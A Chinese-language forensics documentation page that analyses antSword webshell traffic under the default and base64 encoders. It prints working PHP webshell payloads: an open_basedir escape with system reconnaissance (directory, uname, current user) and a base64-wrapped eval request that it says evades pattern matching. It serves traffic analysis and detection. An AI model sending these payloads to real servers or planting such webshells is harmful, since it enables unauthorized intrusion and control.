

repository: Randark-JMT/Treasure-House · page: docs/Forensic/Traffic-Forensic/Webshell/antSword-encoder/index.html · generator: docusaurus

# antSword 蚁剑 编码器 流量解析

:::info 说明
下述的流量数据，默认均已进行过一次 URL Decode 处理，并加以 php format 格式化处理，以便于排除掉 URL Encode 对流量可读性的影响

以下的流量数据，皆产生自蚁剑的 “测试连接” 功能
:::

## 编码器：default

default 模式下，蚁剑将直接通过明文的形式直接传输 Webshell 数据，例如列出当前目录：

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.6e00791381";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "3359" . "dd1f7";
    echo @asenc($output);
    echo "d9aff" . "acf845";
}
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= "	";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "{$s}";
    echo $R;;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
```

## 编码器：base64

base64 模式下，蚁剑会将 Webshell 数据进行 base64 编码之后，再进行传输，在一定程度上可以规避对流量的模式匹配检测

```php
@eval(@base64_decode($_POST['y132bac01f3abe']));&y132bac01f3abe=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgIjAiKTtAc2V0X3RpbWVfbGltaXQoMCk7JG9wZGlyPUBpbmlfZ2V0KCJvcGVuX2Jhc2VkaXIiKTtpZigkb3BkaXIpIHskb2N3ZD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7JG9wYXJyPXByZWdfc3BsaXQoIi87fDovIiwkb3BkaXIpO0BhcnJheV9wdXNoKCRvcGFyciwkb2N3ZCxzeXNfZ2V0X3RlbXBfZGlyKCkpO2ZvcmVhY2goJG9wYXJyIGFzICRpdGVtKSB7aWYoIUBpc193cml0YWJsZSgkaXRlbSkpe2NvbnRpbnVlO307JHRtZGlyPSRpdGVtLiIvLjU5YzY4YjUwN2QxIjtAbWtkaXIoJHRtZGlyKTtpZighQGZpbGVfZXhpc3RzKCR0bWRpcikpe2NvbnRpbnVlO31AY2hkaXIoJHRtZGlyKTtAaW5pX3NldCgib3Blbl9iYXNlZGlyIiwgIi4uIik7JGNudGFycj1AcHJlZ19zcGxpdCgiL1xcXFx8XC8vIiwkdG1kaXIpO2ZvcigkaT0wOyRpPHNpemVvZigkY250YXJyKTskaSsrKXtAY2hkaXIoIi4uIik7fTtAaW5pX3NldCgib3Blbl9iYXNlZGlyIiwiLyIpO0BybWRpcigkdG1kaXIpO2JyZWFrO307fTs7ZnVuY3Rpb24gYXNlbmMoJG91dCl7cmV0dXJuICRvdXQ7fTtmdW5jdGlvbiBhc291dHB1dCgpeyRvdXRwdXQ9b2JfZ2V0X2NvbnRlbnRzKCk7b2JfZW5kX2NsZWFuKCk7ZWNobyAiYzFlYiIuImY3OGQiO2VjaG8gQGFzZW5jKCRvdXRwdXQpO2VjaG8gIjY1YTIiLiI4OGFhIjt9b2Jfc3RhcnQoKTt0cnl7JEQ9ZGlybmFtZSgkX1NFUlZFUlsiU0NSSVBUX0ZJTEVOQU1FIl0pO2lmKCREPT0iIikkRD1kaXJuYW1lKCRfU0VSVkVSWyJQQVRIX1RSQU5TTEFURUQiXSk7JFI9InskRH0JIjtpZihzdWJzdHIoJEQsMCwxKSE9Ii8iKXtmb3JlYWNoKHJhbmdlKCJDIiwiWiIpYXMgJEwpaWYoaXNfZGlyKCJ7JEx9OiIpKSRSLj0ieyRMfToiO31lbHNleyRSLj0iLyI7fSRSLj0iCSI7JHU9KGZ1bmN0aW9uX2V4aXN0cygicG9zaXhfZ2V0ZWdpZCIpKT9AcG9zaXhfZ2V0cHd1aWQoQHBvc2l4X2dldGV1aWQoKSk6IiI7JHM9KCR1KT8kdVsibmFtZSJdOkBnZXRfY3VycmVudF91c2VyKCk7JFIuPXBocF91bmFtZSgpOyRSLj0iCXskc30iO2VjaG8gJFI7O31jYXRjaChFeGNlcHRpb24gJGUpe2VjaG8gIkVSUk9SOi8vIi4kZS0+Z2V0TWVzc2FnZSgpO307YXNvdXRwdXQoKTtkaWUoKTs=
```

进一步对传递的 base64 数据进行解析：

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.59c68b507d1";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "c1eb" . "f78d";
    echo @asenc($output);
    echo "65a2" . "88aa";
}
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= "	";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "{$s}";
    echo $R;;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
```

可以看出还是同一套 payload，只是通过一层 base64 编码进行了规避
